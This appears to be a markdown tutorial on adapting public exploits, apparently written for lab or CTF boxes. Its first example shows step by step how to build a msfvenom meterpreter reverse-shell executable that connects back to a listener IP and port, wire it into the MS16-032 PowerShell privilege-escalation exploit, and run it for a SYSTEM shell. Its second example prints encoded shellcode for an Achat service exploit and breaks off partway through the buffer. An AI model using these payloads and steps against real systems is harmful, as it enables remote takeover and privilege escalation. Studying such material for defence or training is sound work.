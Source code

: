 # how to modify exploits - overview

references: great source > https://zero-day.io/

EXAMPLE 1
# Step 1: Understand what the exploit does

The first step is understanding what the exploit does. you need to have at least a high-level understanding what the exploit does. In many cases, an exploit tries to executes arbitrary code spawn a cmd window, creates a new administrator account or connects back to your listener, spawning you a remote shell.

If we analyze the MS16-032 (https://www.exploit-db.com/exploits/39719) exploit closely, we clearly see it's written in Powershell.

At the end of the exploit, we see the following code:

      # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "",
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)

This part tells us, after succesfully exploiting the MS16-032 vulnerability, the exploit executes C:\Windows\System32.cmd.exe. This would work great if we have physical access to the victim host, but as we run this exploit remotely via meterpreter, spawning a local extra instance of cmd.exe gives us no root privileges via meterpreter. We found our issue!

Now we need to modify the exploit to allow us to elevate our privileges. The easiest way to do this is by replacing C:\Windows\System32\cmd.exe with a a malicious payload .exe you created yourself with msfvenom, allowing to open a new meterpeter system shell.

# Step 2: Create your own malicious payload

To start building your own malicious payload, open a new terminal and execute the following command:

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.95 LPORT=5555 -f exe > zeroday.exe

Let's breakdown the above command:

    msvenom (stand-alone metasploit payload generator)
    -p windows/meterpreter/reverse_tcp (specifies the type of payload you want to use in your malicious executable)
    LHOST=10.10.15.95 (your IP adress you want the victim machine to connect back to)
    LPORT=5555 (your local port you want the victim machine to connect back to)
    -f exe > zeroday.exe (specifies the type of excutable you want to generate and the output file)

Next, we start a metasploit listener with the same payload, LHOST and LPORT as you created your payload with. When our payload is executed on the victim host, a meterpreter shell with connect to our listener.


# Step 3: Modify the exploit and execute

Now we have created our own malicious zeroday.exe instead of cmd.exe, all we need to do is modify the exploit so it executes our payload instead of cmd.exe.

First, we returned to our meterpreter shell and uploaded our zeroday.exe to *C:\Users\kostas\Desktop*.

Next, we replaced C:\Windows\System32\cmd.exe with C:\Users\kostas\Desktop\zeroday.exe in the exploit and saved as a .ps1 file. We also uploaded the now modified ps1 file to *C:\Users\kostas\Desktop* on our victim host.

	# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\kostas\Desktop\zeroday.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)

To execute our new modified exploit, run following commands:

./zeroday.ps1
Import-Module .ps1
Invoke-MS16-032 

In the screenshot you will notice that I ran Invoke-zeroday2 instead of Invoke-MS16-032. That's because I changed the name of the function for fun as well. No need to worry about that.

If we return to our meterpreter listener, we should have a SYSTEM shell..

==========================================================

EXAMPLE 2 

# Generate your own shellcode

on a box, we found the vulnerable service achat running on port 9256, which should be vulnerable to this exploit.

After analyzing the current exploit, we see in the comments (msfvenom part) that the current payload shellcode (the second part) is opening calc.exe via cmd. Wouldn't it be nice if we could spawn a reverse shell instead?

~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes
~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
~~~~~~~~~~~~~~~~~~~~~~~



